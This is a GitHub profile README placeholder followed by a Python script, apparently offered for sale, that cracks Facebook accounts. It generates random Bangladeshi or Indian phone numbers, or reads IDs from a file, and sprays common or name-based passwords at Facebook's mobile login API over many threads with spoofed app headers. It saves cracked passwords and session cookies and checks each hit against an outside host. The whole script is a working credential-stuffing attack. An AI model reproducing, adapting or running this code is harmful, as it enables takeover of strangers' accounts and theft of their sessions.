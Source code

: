 - 👋 Hi, I’m @babakhor123
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
babakhor123/babakhor123 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->SC MAKE BY HABIB HOSSAIN
#WORKING SCRIPT SELLER
#__________________IMPORT____________#
import os,random
import sys,time,uuid
try:
    import requests,bs4,mechanize,httpx
    import rich,json,subprocess,random,string
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
except ModuleNotFoundError:
    print('\x1b[38;5;46m[\x1b[1;97m≈\x1b[38;5;46m] MODULE INSTALLING ')
    os.system('pip install requests rich')
    os.system('pip install mechanize')
    os.system('pip install bs4 httpx')
#________________PROXY______________#
try:
    prox= requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=https&timeout=1000&country=all&ssl=all&anonymity=all').text
    open('.prox.txt','w').write(prox)
except Exception as e:
    pass
prox=open('.prox.txt','r').read().splitlines()
#________________LOOP______________#
loop,ok,cp,user = 0,[],[],[]
cok,plist = [],[]
#________________COLOUR______________#
A = '\x1b[1;97m' 
R = '\x1b[38;5;196m'
Y = '\033[1;33m'
G = '\x1b[38;5;48m'
B = '\x1b[38;5;8m'
G1 = '\x1b[38;5;46m'
G2 = '\x1b[38;5;47m'
G3 = '\x1b[38;5;48m'
G4 = '\x1b[38;5;49m'
G5 = '\x1b[38;5;50m'
X = '\33[1;34m'
X1 = '\x1b[38;5;14m'
X2 = '\x1b[38;5;123m'
X3 = '\x1b[38;5;122m'
X4 = '\x1b[38;5;86m'
X5 = '\x1b[38;5;121m'
S = '\x1b[1;96m'
M = '\x1b[38;5;205m'
#__________________LINE____________#
def linex():
    print(f'{A}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━')
def clear():
        os.system(f'clear')
        print(logo)
#________________UA______________#
def sex():
	facebook_version = f"{random.randint(100, 450)}.{random.randint(0, 0)}.{random.randint(0, 0)}.{random.randint(1, 40)}.{random.randint(10, 150)}"
	fbbv = str(random.randint(10000000, 66666666))
	fbrv = str(random.randint(000000000,999999999))
	density = random.choice(['2.0', '2.5', '3.0'])
	width = random.choice(["720", "1080", "1280"])
	height = random.choice(["720", "1080", "1280", "1440", "1920"])
	ua = f"[FBAN/FB4A;FBAV/{str(facebook_version)};FBBV/{str(fbbv)};[FBAN/FB4A;FBAV/{str(facebook_version)};FBBV/{str(fbbv)};FBDM/{{density={density},width={width},height={height}}};FBLC/en_US;FBRV/{str(fbrv)};FBCR/MTN-CG;FBMF/Asus;FBBD/Asus;FBPN/com.facebook.katana;FBDV/ASUS_X01BDA;FBSV/9.0;FBOP/1;FBCA/arm64-v8a:]"
	return ua
#__________________LOGO____________#
logo=(f"""
       {G1}███████ {Y}██     ██  {M}█████   {S}██████
       {G2}██      {Y}██     ██ {M}██   ██ {S}██
       {G3}███████ {Y}██  █  ██ {M}███████ {S}██   ███
       {G4}     ██ {Y}██ ███ ██ {M}██   ██ {S}██    ██
       {G5}███████  {Y}███ ███  {M}██   ██  {S}██████
{A}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
{G1}[{A}≈{G1}]{G1} DEVELOPER {A}➢{G1} HABIB\_____ :* \❷/ 3:) \⓿
{G1}[{A}≈{G1}]{G1} TOOLTYPE  {A}➢{G1} FILE {A}&{G1} RANDOM CLONE
{G1}[{A}≈{G1}]{G1} VERSION   {A}➢{A} V{G1}/{A}1.2
{G1}[{A}≈{G1}]{G1} STATUS    {A}➢{A} SCRIPT SELL
{A}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━""")
#__________________MAIN____________#
def menu():
    clear()
    print(f'{G1}[{A}1{G1}]{G1} FILE CLONE ')
    print(f'{G1}[{A}2{G1}]{G1} RANDOM CLONE ')
    print(f'{G1}[{A}3{G1}]{G1} CONTACT OWNER ')
    print(f'{G1}[{A}0{G1}]{G1} EXIT TOOL ')
    linex()
    sex = input(f'{G1}[{A}?{G1}]{G1} CHOICE {A}➢{G1} ')
    if sex in ['1']:
        file()
    elif sex in ['2']:
        XXX()
    elif sex in ['3']:
        os.system('xdg-open https://www.facebook.com/sk.sahathat');menu()
    elif sex in ['0']:
        sys.exit()
    else:
        menu()
#__________________RANDOM DEF____________#
def XXX():
    clear()
    print(f'{G1}[{A}1{G1}]{G1} BANGLADESH CLONE')
    print(f'{G1}[{A}2{G1}]{G1} INDIA CLONE')
    print(f'{G1}[{A}0{G1}]{G1} BACK MENU');linex()
    sex = input(f'{G1}[{A}?{G1}]{G1} CHOICE {A}➢{G1} ')
    if sex in ['1']:
        bd()
    elif sex in ['2']:
        India()
    elif sex in ['0']:
    	menu()
    else:
        XXX()
#__________________BD DEF____________#
def bd():
    clear()
    print(f'{G1}[{A}≈{G1}]{G1} EXAMPLE {A}➢{A} 017{G}/{A}019{G}/{A}018{G}/{A}016');linex()
    code = input(f'{G1}[{A}?{G1}]{G1} CHOICE  {A}➢{G1} ')
    clear()
    print(f'{G1}[{A}≈{G1}]{G1} EXAMPLE {A}➢{A} 3000{G}/{A}5000{G}/{A}10000{G}/{A}99999');linex()
    limit = int(input(f'{G1}[{A}?{G1}]{G1} CHOICE  {A}➢{G1} '))
    for x in range(limit):
        nmp = "". join(random.choice(string.digits) for _ in range(8))
        user.append(nmp)
    clear()
    with ThreadPool(max_workers=30) as sexy:
        clear()
        print(f'{G1}[{A}≈{G1}]{G1} SIM CODE  {A}➢{A} {code}')
        print(f'{G1}[{A}≈{G1}]{G1} TOTAL UID {A}➢{A} {str(len(user))}')
        print(f"{G1}[{A}={G1}]{G1} TURN {G1}[{A}ON{G1}/{A}OFF{G1}] AIRPLANE MODE EVERY {A}3{G1} MIN");linex()
        for love in user:
            ids = code + love
            ax = ids[:8]
            bx = ids[:7]
            cx = ids[:6]
            xa = love[1:]
            xb = love[2:]
            psd = [ids,love,ax,bx,cx,xa,xb,'77889900','bangladesh','bangla','jannat','jannatul','mariya','sadiya','farjana','sabbir','rakibul','mahidul','nusrat','tamanna','mimmim','suraiya','alamin','arafat','bushra','roksana','tabassum','tanisha','tasnim']
            sexy.submit(randm,ids,psd)
    print('')
    print(f'\r{A}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━')
    print(f'{G1}[{A}≈{G1}]{G1} THE PROCESS HAS BEEN COMPLETED')
    print(f'{G1}[{A}≈{G1}]{G1} TOTAL OK ID {A}➢{G1} {str(len(ok))}')
    print(f'{G1}[{A}≈{G1}]{M} TOTAL CP ID {A}➢{M} {str(len(cp))}')
    print(f'\r{A}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━')
    input(f'{G1}[{A}≈{G1}]{G1} PRESS ENTER TO BACK ')
    menu()
#__________________INDIA DEF____________#
def India():
    clear()
    print(f'{G1}[{A}≈{G1}]{G1} EXAMPLE {A}➢{A} +91639{G}/{A}+91934{G}/{A}+91902{G}/{A}+91701');linex()
    code = input(f'{G1}[{A}?{G1}]{G1} CHOICE  {A}➢{G1} ')
    clear()
    print(f'{G1}[{A}≈{G1}]{G1} EXAMPLE {A}➢{A} 3000{G}/{A}5000{G}/{A}10000{G}/{A}99999');linex()
    limit = int(input(f'{G1}[{A}?{G1}]{G1} CHOICE  {A}➢{G1} '))
    for x in range(limit):
        nmp = "". join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    clear()
    with ThreadPool(max_workers=30) as sexy:
        clear()
        print(f'{G1}[{A}≈{G1}]{G1} SIM CODE  {A}➢{A} {code}')
        print(f'{G1}[{A}≈{G1}]{G1} TOTAL UID {A}➢{A} {str(len(user))}')
        print(f"{G1}[{A}={G1}]{G1} TURN {G1}[{A}ON{G1}/{A}OFF{G1}] AIRPLANE MODE EVERY {A}3{G1} MIN");linex()
        for love in user:
            ids = code + love
            psd = [love,ids[:8],'57273200','59039200','57575751']
            sexy.submit(randm,ids,psd)
    print('')
    print(f'\r{A}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━')
    print(f'{G1}[{A}≈{G1}]{G1} THE PROCESS HAS BEEN COMPLETED')
    print(f'{G1}[{A}≈{G1}]{G1} TOTAL OK ID {A}➢{G1} {str(len(ok))}')
    print(f'{G1}[{A}≈{G1}]{M} TOTAL CP ID {A}➢{M} {str(len(cp))}')
    print(f'\r{A}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━')
    input(f'{G1}[{A}≈{G1}]{G1} PRESS ENTER TO BACK ')
    menu()
#__________________FILE DEF____________#
def file():
    clear()
    print(f'{G1}[{A}≈{G1}]{G1} EXAMPLE {A}➢{G1} /{A}sdcard{G1}/{A}SWAG.txt');linex()
    file = input(f'{G1}[{A}?{G1}]{G1} FILE NAME {A}➢{G1} ')
    try:
        fo = open(file,'r').read().splitlines()
    except FileNotFoundError:
        print(f'{G1}[{A}≈{G1}]{G1} FILE NOT FOUND');time.sleep(1)
        file()
    clear()
    print(f'{G1}[{A}≈{G1}]{G1} EXAMPLE {A}➢{G1} {G1}[{A}1-20{G1}]{G1}');linex()
    limit = int(input(f'{G1}[{A}?{G1}]{G1} PASSWORD LIMIT {A}➢{G1} '))
    clear()
    for x in range(limit):
        print(f'{G1}[{A}≈{G1}]{G1} EXAMPLE {A}➢{A} firstlast{G1}/{A}first123{G1}/{A}last123')
        plist.append(input(f'{G1}[{A}?{G1}]{G1} PASSWORD NO {G1}[{A}{x+1}{G1}]{G1} {A}➢{S} '));linex()
    with ThreadPool(max_workers=30) as sexy:
        tl = str(len(fo))
        clear()
        print(f'{G1}[{A}≈{G1}]{G1} TOTAL ID {A}➢{G1} {tl}')
        print(f"{G1}[{A}={G1}]{G1} TURN {G1}[{A}ON{G1}/{A}OFF{G1}] AIRPLANE MODE EVERY {A}3{G1} MIN");linex()
        for user in fo:
            ids,names = user.split('|')
            psd = plist
            sexy.submit(M1,ids,names,psd)
    print('')
    print(f'\r{A}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━')
    print(f'{G1}[{A}≈{G1}]{G1} THE PROCESS HAS BEEN COMPLETED')
    print(f'{G1}[{A}≈{G1}]{G1} TOTAL OK ID {A}➢{G1} {str(len(ok))}')
    print(f'{G1}[{A}≈{G1}]{M} TOTAL CP ID {A}➢{M} {str(len(cp))}')
    print(f'\r{A}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━')
    input(f'{G1}[{A}≈{G1}]{G1} PRESS ENTER TO BACK ')
    menu()
#__________________RANDON METHOD____________#
def randm(ids,psd):
    global loop,ok
    nip=random.choice(prox)
    proxs= {'http': 'socks4://'+nip}
    sys.stdout.write(f'\r\r{A}[{G1}SWAG-XD{A}]-[{G1}{loop}{A}]-[{G1}OK{A}:{G1}{len(ok)}{A}] ')
    sys.stdout.flush()
    try:
        for pas in psd:
            data={'adid':str(uuid.uuid4()),
            'format':'json',
            'device_id':str(uuid.uuid4()),
            'email':ids,
            'password':pas,
            'generate_analytics_claims':'1',
            'community_id':'',
            'cpl':'true','try_num':'1',
            'family_device_id':str(uuid.uuid4()),
            'credentials_type':'password',
            'source':'login',
            'error_detail_type':'button_with_disabled',
            'enroll_misauth':'false',
            'generate_session_cookies':'1',
            'generate_machine_id':'1',
            'currently_logged_in_userid':'0',
            'locale':'en_US',
            'client_country_code':'US',
            'fb_api_req_friendly_name':'authenticate',
            'api_key':'62f8ce9f74b12f84c123cc23437a4a32',
            'access_token':'350685531728|62f8ce9f74b12f84c123cc23437a4a32'}
            head={'User-Agent': sex(),
            'Accept-Encoding':'gzip, deflate',
            'Connection':'close',
            'Content-Type':'application/x-www-form-urlencoded',
            'Host':'graph.facebook.com',
            'X-FB-Net-HNI':str(random.randint(2e4, 4e4)),
            'X-FB-SIM-HNI':str(random.randint(2e4, 4e4)),
            'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
            'X-FB-Connection-Type':'WIFI',
            'X-Tigon-Is-Retry':'False',
            'x-fb-session-id':'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32',
            'x-fb-device-group':'5120',
            'X-FB-Friendly-Name':'ViewerReactionsMutation',
            'X-FB-Request-Analytics-Tags':'graphservice',
            'X-FB-HTTP-Engine':'Liger',
            'X-FB-Client-IP':'True',
            'X-FB-Server-Cluster':'True',
            'x-fb-connection-token':'62f8ce9f74b12f84c123cc23437a4a32'}
            url = 'https://b-graph.facebook.com/auth/login'
            po = requests.post(url,data=data,headers=head,allow_redirects=False).text
            q = json.loads(po)
            if 'access_token' in q:
                uid = str(q['uid'])
                coki = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                res = requests.get(f"https://rajx.pythonanywhere.com/live?uid={uid}").text
                if res == 'LIVE':
                	print(f'\r\r{A}[{G1}SWAG-OK{A}]{G1} {uid} {A}|{G1} {pas}');open('/sdcard/SWAG-RNDM-OK.txt','a').write(uid+'|'+pas+'|'+coki+'\n');ok.append(uid);break
                if res == 'LOCK':
                	print(f'\r\r{A}[{S}SWAG-LK{A}]{S} {uid} {A}|{S} {pas}');break
            else:continue
        loop+=1
    except Exception as e:
        pass
#__________________FILE METHOD____________#
def M1(ids,names,psd):
    global loop,ok
    nip=random.choice(prox)
    proxs= {'http': 'socks4://'+nip}
    sys.stdout.write(f'\r\r{A}[{G1}SWAG-XD{A}]-[{G1}{loop}{A}]-[{G1}OK{A}:{G1}{len(ok)}{A}] ')
    sys.stdout.flush()
    try:
        fn = names.split(' ')[0]
        try:ln = names.split(' ')[1]
        except:ln = fn
        for pw in psd:
            pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
            data={'adid':str(uuid.uuid4()),
            'format':'json',
            'device_id':str(uuid.uuid4()),
            'email':ids,
            'password':pas,
            'generate_analytics_claims':'1',
            'community_id':'',
            'cpl':'true','try_num':'1',
            'family_device_id':str(uuid.uuid4()),
            'credentials_type':'password',
            'source':'login',
            'error_detail_type':'button_with_disabled',
            'enroll_misauth':'false',
            'generate_session_cookies':'1',
            'generate_machine_id':'1',
            'currently_logged_in_userid':'0',
            'locale':'en_US',
            'client_country_code':'US',
            'fb_api_req_friendly_name':'authenticate',
            'api_key':'62f8ce9f74b12f84c123cc23437a4a32',
            'access_token':'350685531728|62f8ce9f74b12f84c123cc23437a4a32'}
            head={'User-Agent': sex(),
            'Accept-Encoding':'gzip, deflate',
            'Connection':'close',
            'Content-Type':'application/x-www-form-urlencoded',
            'Host':'graph.facebook.com',
            'X-FB-Net-HNI':str(random.randint(2e4, 4e4)),
            'X-FB-SIM-HNI':str(random.randint(2e4, 4e4)),
            'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
            'X-FB-Connection-Type':'WIFI',
            'X-Tigon-Is-Retry':'False',
            'x-fb-session-id':'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32',
            'x-fb-device-group':'5120',
            'X-FB-Friendly-Name':'ViewerReactionsMutation',
            'X-FB-Request-Analytics-Tags':'graphservice',
            'X-FB-HTTP-Engine':'Liger',
            'X-FB-Client-IP':'True',
            'X-FB-Server-Cluster':'True',
            'x-fb-connection-token':'62f8ce9f74b12f84c123cc23437a4a32'}
            po = requests.post('https://b-graph.facebook.com/auth/login',data=data,headers=head).json()
            if 'access_token' in po:
                print(f'\r\r{A}[{G1}SWAG-OK{A}]{G1} {ids} {A}|{G1} {pas}')
                coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                open('/sdcard/SWAG-FILE-OK.txt','a').write(uid+'|'+pas+'|'+coki+'\n')
                ok.append(ids)
                break
            elif 'www.facebook.com' in po['error']['message']:
                #print(f'\r\r{A}[{M}SWAG-CP{A}]{M} {ids} {A}|{M} {pas}')
                open('/sdcard/SWAG-FILE-CP.txt','a').write(ids+'|'+pas+'\n')
            else:continue
        loop+=1
    except Exception as e:
        pass
if __name__ == '__main__':
    menu()
